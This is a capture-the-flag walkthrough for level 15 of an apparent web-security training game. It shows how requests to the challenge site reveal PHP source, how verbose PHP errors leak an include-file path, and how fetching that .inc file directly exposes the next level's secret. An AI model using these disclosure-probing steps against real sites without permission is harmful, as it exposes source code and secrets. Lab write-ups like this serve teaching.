 # Level-15

Level15-16 (https://matrix.voorivex.academy/the-cat-is-a-gliTch)

send this request :
```text
https://matrix.voorivex.academy/the-cat-is-a-gliTch/?show-me-the-codes
```
you will get a php code:
```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

// require_once("walls-can-be-broken.php");
?>
```
send a request to :
```text
https://matrix.voorivex.academy/the-cat-is-a-gliTch/walls-can-be-broken.php
```
you will get an error :
```
 Notice: Undefined index: wall in /var/www/html/level-15-the-cat-is-a-gliTch/walls-can-be-broken.php on line 5
```
now send this request:
```text
https://matrix.voorivex.academy/the-cat-is-a-gliTch/walls-can-be-broken.php?wall=1
```
you will get this error:
```text
 Warning: Use of undefined constant crack - assumed 'crack' (this will throw an Error in a future version of PHP) in /var/www/html/level-15-the-cat-is-a-gliTch/morpheus-is-behind-the-wall.inc on line 4
```
now send a request to:
```text
https://matrix.voorivex.academy/the-cat-is-a-gliTch/morpheus-is-behind-the-wall.inc
```
and you will get this :
```php
<?php

$next_level = 'morPheus-vS-sMith!';
crack
?>
```
go to:
```text
https://matrix.voorivex.academy/morPheus-vS-sMith!
```
